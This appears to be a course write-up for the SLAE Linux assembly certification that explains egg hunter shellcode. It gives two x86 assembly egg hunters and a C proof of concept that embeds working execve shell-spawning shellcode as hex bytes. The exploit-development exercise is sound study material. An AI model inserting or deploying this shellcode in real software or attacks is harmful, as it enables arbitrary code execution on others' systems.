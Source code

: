 # Exercise 3

## Assignment #3

- Study about the Egg Hunter shellcode

- Create a working demo of the Egghunter

- Should be configurable for different payloads


## What is an EggHunter?

It is a very efficient exploitation method when we have little space to store our shellcode which can be seen as a [Staged Shellcode](https://en.wikipedia.org/wiki/Shellcode#Staged).

Summing up, the first part of shellcode will be responsible for searching our 4-byte tag or "egg" in memory and the second part will be stored in some position of the memory, composed of the "egg" and the shellcode to execute (which can be the typical shellcode to spawn a shell, to open a reverse shell...).

Knowing this, the first part is the most important and the one which must be researched carefully. There are many "egghunters" on the internet, but in this case we will focus our study in the ones shown in [the Skape's paper from 2004](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).

These egghunters have the three requirements needed: robustness, small size and they are fast. In all of them the author uses 8-byte "eggs", which means that the tag is used twice, so . The technique is based on the system calls, given they can *validate process-relative memory addresses without leading to a segmentation fault or other runtime error in the program itself*, using them to check if the memory is readable and later if the tag has been reached.


## EggHunter study
The two egghunters studied use the same syscall: access.

![Screenshot](images/1.png)


### Egghunter 1

```
global _start

section .text
_start:
  mov ebx, 0x50905090
  xor ecx, ecx
  mul ecx

jump1:
  or dx, 0xfff

jump2:
  inc edx
  pusha
  lea ebx, [edx+0x4]
  xor eax, eax
  mov al, 0x21
  int 0x80
  cmp al, 0xf2
  popa
  jz short jump1
  cmp dword [edx], ebx
  jnz short jump2
  cmp dword [edx+4], ebx
  jnz short jump2
  jmp edx
```

It is tested with the execve shellcode as payload:

![Screenshot](images/2.png)




### Egghunter 2

```
global _start

section .text
_start: 

  xor edx, edx

test1:  

  or dx, 0xfff

test2:  
  inc edx
  lea ebx, [edx+0x4]
  push byte 0x21
  pop eax  
  int 0x80
  cmp al, 0xf2
  jz test1 
  mov eax, 0x50905090
  mov edi, edx
  scasd
  jnz test2
  scasd
  jnz test2
  jmp edi
```

It is tested with the execve shellcode as payload:

![Screenshot](images/3.png)



### POC code

This is the code of *shellcode.c* for this exercise:


```
#include <stdio.h>
#include <string.h>
#define egg "\x90\x50\x90\x50"

unsigned char egghunter[] = "\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
unsigned char shellcode[] = egg egg "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {

  printf("Egghunter Length:  %d\n", strlen(egghunter));
  printf("Egghunter Egg + Shellcode:  %d\n", strlen(shellcode));

  int (*ret)() = (int(*)())egghunter;

  ret();
}
```



## Useful links 

- Paper: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

- Python PoC con Kolibri: https://medium.com/@rafaveira3/exploit-development-kolibri-v2-0-http-server-egg-hunter-example-1-5e435aa84879



---------------------------------------------------


## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433